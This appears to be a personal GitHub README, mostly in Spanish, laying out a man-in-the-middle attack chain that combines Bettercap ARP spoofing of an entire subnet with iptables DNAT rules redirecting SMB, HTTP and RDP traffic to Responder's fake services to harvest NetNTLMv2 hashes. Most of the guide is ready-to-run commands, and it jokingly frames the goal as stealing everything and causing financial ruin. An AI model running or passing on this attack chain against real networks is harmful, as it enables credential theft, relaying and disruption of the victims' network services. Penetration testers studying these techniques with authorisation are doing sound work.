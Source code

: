 # Man-In-The-Mirror
My own guide of how to integrate famous tools like Responder and Bettercap to Steal everything, Kill everyone and cause total financial ruin.


⣿⣿⣿⣿⣿⣿⣿⡿⡛⠟⠿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⣿⣿⠿⠨⡀⠄⠄⡘⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⣿⠿⢁⠼⠊⣱⡃⠄⠈⠹⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⡿⠛⡧⠁⡴⣦⣔⣶⣄⢠⠄⠄⠹⣿⣿⣿⣿⣿⣿⣿⣤⠭⠏⠙⢿⣿⣿⣿⣿⣿
⣿⡧⠠⠠⢠⣾⣾⣟⠝⠉⠉⠻⡒⡂⠄⠙⠻⣿⣿⣿⣿⣿⡪⠘⠄⠉⡄⢹⣿⣿⣿⣿
⣿⠃⠁⢐⣷⠉⠿⠐⠑⠠⠠⠄⣈⣿⣄⣱⣠⢻⣿⣿⣿⣿⣯⠷⠈⠉⢀⣾⣿⣿⣿⣿
⣿⣴⠤⣬⣭⣴⠂⠇⡔⠚⠍⠄⠄⠁⠘⢿⣷⢈⣿⣿⣿⣿⡧⠂⣠⠄⠸⡜⡿⣿⣿⣿
⣿⣇⠄⡙⣿⣷⣭⣷⠃⣠⠄⠄⡄⠄⠄⠄⢻⣿⣿⣿⣿⣿⣧⣁⣿⡄⠼⡿⣦⣬⣰⣿
⣿⣷⣥⣴⣿⣿⣿⣿⠷⠲⠄⢠⠄⡆⠄⠄⠄⡨⢿⣿⣿⣿⣿⣿⣎⠐⠄⠈⣙⣩⣿⣿
⣿⣿⣿⣿⣿⣿⢟⠕⠁⠈⢠⢃⢸⣿⣿⣶⡘⠑⠄⠸⣿⣿⣿⣿⣿⣦⡀⡉⢿⣧⣿⣿
⣿⣿⣿⣿⡿⠋⠄⠄⢀⠄⠐⢩⣿⣿⣿⣿⣦⡀⠄⠄⠉⠿⣿⣿⣿⣿⣿⣷⣨⣿⣿⣿
⣿⣿⣿⡟⠄⠄⠄⠄⠄⠋⢀⣼⣿⣿⣿⣿⣿⣿⣿⣶⣦⣀⢟⣻⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⡆⠆⠄⠠⡀⡀⠄⣽⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⡿⡅⠄⠄⢀⡰⠂⣼⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

~ Responder and Bettercap -- you could have 
    one without the other, but *why* would you want to...?

Bueno lo primero es que si bien este github pretende mas que todo servirme de guia personal, por si alguien quiere utilizar o lanzar este ataque aqui mencionado, es importante tener en cuenta que no podria ser muy util en un hackeo de verdad puesto que es extremadamente ruidoso y cualquier equipo decente de seguridad lo notaria (en realidad cualquier Admin TI puesto que cuando todos los servidores caen, o pierden conexion, es comun que los usuarios se empiecen a quejar). Por lo anterior en el caso de que sea un pentest posiblemente deberias pedir permiso antes de realizarlo.

Con lo anterior aclarado, seria ideal si quien lo usara no termina en la carcel por ruidoso o sin empleo por causar la ruina financiera a su cliente ;).

### Estructura
Actualmente no cuento con un grafico aunque podria ser de mucha ayuda, basicamente la estructura del ataque es la siguiente:

Primero todo el trafico de la red ya sea que iba dirigido a una maquina interna o externa, sera redirigido a tu pc o maquina que este utilizando y que este dentro de la red. Lo segundo sera redirigir todo el trafico que entra en tu maquina a los servicios falsos que hallaz montado en maquina o algun servidor, y por ultimo deberas disfrutar del buen farm. 
(Se que posiblemente no soy el primero ni el ultimo en realizar un ataque asi, simplemente es para recordar los comandos y tratar de hacer una guia que vaya a otro nivel por que por lo general solo veras guias de Responder y Bettercap usandose por separado y unicamente viendo el trafico, sin aprovechar todo el potencial de MiTM)

### Requisitos
Lo primero es haber logrado realizar un MiTM, para esto hay una gran variedad de herramientas y ataques como por ejemplo mitm6, arp spoofing, mitm usando una piña o algun dispositivo fisico, eviltwin, karma attacks... Tambien hay otros ataques que si bien no soy propiamente mitm en su definicion mas purista, actuan muy similar para nuestro proposito como por ejemplo DNS Spoofing, LLMNR Poisoning, MDNS Poisoning, NB-BTNS, y posiblemente muchos mas que se me han olvidado o que no conozco. Para nuestro caso por sencillez y lo comun que es encontrado usaremos ARP Spoofing.

Una vez el MiTM fue conseguido lo siguiente es decidir que vamos a hacer con todo el trafico que esta entrando en nuestro pc o servidor. Podriamos realizar una gran cantidad de integraciones y acciones, la gran mayoria de tutoriales unicamente llegan hasta el primer requisito o paso, y a lo mucho llegan a mencionar que hay muchas mas cosas que se podrian hacer pero no enseñan como se podrian hacerse. Como tal para efectos practios aqui unicamente voy a optar por redirigir el trafico a los servidores de Responder para obtener hashes NetNTLMv2 pero lo visto aqui perfectamente se podria trasladar a modulos de impacket como NTLMRelayx, Burpsuite, Paginas de phishing, etc...

Ya con el objetivo decidido el tercer paso es montar los servidores o servicios como se menciona en el paso 2 y por ultimo deberemos configurar nuestras reglas enrutamiento con iptables para conseguir redirigir todo el trafico a nuestros servicios maliciosos.

### Link Start
- Lo primero que vamos a realizar es la configuracion del ruteo atravez de ip tables, lo que vamos a hacer basicamente es redirigir todo el trafico que vaya para cualquier ip y que este pasando a travez de nuestra maquina y con destino los puertos 80, 139, 445, 3389... hacia nuestra ip en nuestros respectivos puertos 80, 139, 445, 3389...  (Recientemete desarrolle un script que es capaz de configurar de manera automatica las siguientes reglas).
```
# Simplemente ejecuta el script presente en este repo de la forma ./man-in-the-mirror.sh [INTERFAZ] [PUERTOS]
# Un ejemplo seria ./man-in-the-mirror.sh eth0 80,443,445,139,3389,25
# O configura las reglas de manera manual como se indica a continuacion

# Listar nuestras reglas de iptables en la tabla nat que es la que nos interesa para ver que no halla nada raro o en conflicto
sudo iptables -L -t nat

# Agregar las reglas de prerouting para redirigir todo paquete con destino al puerto 80, 139, 445, 3389 a nuestros puertos que despues seran abiertos con Responder
# Sea nuestra ip con responder 192.168.1.22
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.1.22:80
sudo iptables -t nat -A PREROUTING -p tcp --dport 8080 -j DNAT --to-destination 192.168.1.22:80
sudo iptables -t nat -A PREROUTING -p tcp --dport 139 -j DNAT --to-destination 192.168.1.22:139
sudo iptables -t nat -A PREROUTING -p tcp --dport 445 -j DNAT --to-destination 192.168.1.22:445
sudo iptables -t nat -A PREROUTING -p tcp --dport 3389 -j DNAT --to-destination 192.168.1.22:3389


# Ahora hay que activar el enmascaramiento para que el paquete pase a ser cosiderado propio y pueda ser modificado (O algo asi, mi especialidad no es iptables jejeje)
sudo iptables -t nat -A POSTROUTING -j MASQUERADE

```
Ya con el enrutamiento configurado sigue lo facil
- Vamos a subir los servidores de Responder, que van a estar escuchando en los puertos que anteriormente configuramos. Para esto simplemente vamos a lanzar el siguiente comando
```
# Sea nuestra interfaz conectada a la red eth0
sudo responder -I eth0 -A -v
```
Por ultimo ya con los servidores arriba lo unico que falta es conseguir el MiTM para esto vamos a usar Bettercap como antes habia mencionado
- Como tal vamos a utilizar el modulo de arp.spoof de Bettercap el cual realizara un arp spoofing redirigiendo todo el trafico del segmento seleccionado hacia nuestra ip
```
# Lo primero que vamos a realizar sera iniciar Bettercap
sudo bettercap

# Ahora deberemos validar las configuraciones y los modulos encendidos para eso podemos usar el comando help y help {modulo}
help
help arp.spoof

# Ahora encendemos los modulos secundarios que nos ayudaran a tener un mayor entendimiento de la red
net.probe on
net.sniff on

# Ahora toca ajustar el modulo de arp.spoof
set arp.spoof.internal true
set arp.spoof.fullduplex true

set arp.spoof.targets 192.168.1.0/24

# Por ultimo toca encender empezar el arp spoofing
arp.spoof on
```

Listo ya con esto deberiamos estar realizando el ataque, como se puede suponer esto se puede combinar con muchas otras herramietas y ataque como por ejemplo beef, burpsuite, sitios maliciosos, sitios de phishing, etc, etc
